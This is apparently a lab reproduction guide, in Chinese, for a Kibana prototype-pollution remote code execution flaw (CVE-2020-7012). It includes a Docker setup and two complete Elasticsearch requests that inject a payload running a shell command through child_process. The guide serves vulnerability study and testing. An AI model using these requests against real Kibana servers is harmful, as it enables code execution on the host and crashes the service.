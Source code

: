 # Kibana 7.6.2 upgrade-assistant-telemetry 原型污染导致远程代码执行 (CVE-2020-7012)

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

Kibana 6.7.0 至 6.8.8 版本以及 7.0.0 至 7.6.2 版本中的 Upgrade Assistant 功能存在原型污染漏洞。具有 Kibana 索引写入权限的认证用户可以插入恶意数据，导致 Kibana 执行任意代码。攻击者可能利用此漏洞以 Kibana 进程的权限在主机系统上执行代码。

参考链接：

- <https://hackerone.com/reports/852613>
- <https://discuss.elastic.co/t/elastic-stack-6-8-9-and-7-7-0-security-update/235571>

## 环境搭建

使用 Docker 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```bash
docker compose up -d
```

环境启动后，Kibana 将监听在 `http://your-ip:5601`。

## 漏洞复现

远程代码执行漏洞发生在 Kibana 从 Elasticsearch 读取带有 `upgrade-assistant-telemetry` 属性的保存对象时。你可以通过直接向 Elasticsearch 发送数据或通过 Kibana 提交查询来利用此漏洞。代码执行将在 Kibana 重启后或数据收集时（具体时间未知）发生。

首先进入 Kibana UI 的开发者工具（URL 为 `http://your-ip:5601/app/kibana#/dev_tools/console`），然后发送以下请求来修改 Kibana 映射，以允许自定义的 `upgrade-assistant-telemetry` 文档：

```json
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```

然后发送第二个请求来注入恶意的 telemetry 文档：

```json
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
  "upgrade-assistant-telemetry": {
    "ui_open.overview": 1,
    "ui_open.cluster": 1,
    "ui_open.indices": 1,
    "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('touch /tmp/success')"
  },
  "type": "upgrade-assistant-telemetry",
  "updated_at": "2020-04-17T20:47:40.800Z"
}
```

![update kibana mappings](1.png)

最后，你需要等待一段时间让 payload 执行。如果不想等待，可以通过 `docker compose restart kibana` 重启 Kibana 服务器，恶意代码将在服务重启后执行。

如图所示，`touch /tmp/success` 将在服务重启后执行：

![index doc status](2.png)

> **重要提示：漏洞利用后，Kibana 将崩溃且无法启动。你需要从 ElasticSearch 中删除 `.kibana_1` 索引才能恢复功能。**
